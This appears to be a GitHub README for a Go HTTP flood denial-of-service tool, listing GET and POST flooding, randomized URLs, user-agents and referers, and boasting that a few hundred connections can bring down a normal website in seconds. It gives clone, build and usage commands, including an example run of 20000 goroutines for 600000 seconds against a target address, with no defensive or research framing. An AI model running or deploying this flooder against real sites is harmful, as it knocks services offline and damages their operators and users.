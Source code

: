 
**Warning: Please use command "ulimit -n 999999" before use this in linux**
**1 Threads =  1 connection, 100~300 connections can down a normal website in 10s(specially apache server LOL)**
 
**This is golang and threads are just goroutines so you set more higher threads like 1000-5000 is fine.**

**Why can it run over 1000 threads(goroutines)? [Read this](http://tleyden.github.io/blog/2014/10/30/goroutines-vs-threads/)**

## INFO

 - [x] HTTP Get Flood
 - [x] HTTP Post Flood
 - [x] Random url(http get flood)
 - [x] Self edit header(You can use "nil" to use default header)
 - [x] Improved threading control
 - [x] More powerful flood
 - [x] Auto get ip form domain(golang inbuilt function)
 - [x] More format for random url(http get flood)
 - [x] Fixed for 386 systems
 -----------------------------------------------------
 Default header setting:
 - [x] Random user-agents
 - [x] Random data(http post flood) 
 - [x] Random Accpetall
 - [x] Random Referer(only for http get flood)


## Download

Then:

    git clone https://github.com/LV2K1/httpddos

Header.txt format:

    Accept: text/html
    User-agent: Wget
    Referer: http://google.com

Or anything else of http header. If you don't have any idea of this please just use "nil" for using default random header.
## Usage

    cd httpddos
    go build httpflood.go
    ./httpflood  <url> <threads> <get/post> <seconds> <header.txt/nil>
    
    ./httpflood https://x.x.x.x/traking/service 20000 post 600000 header.txt

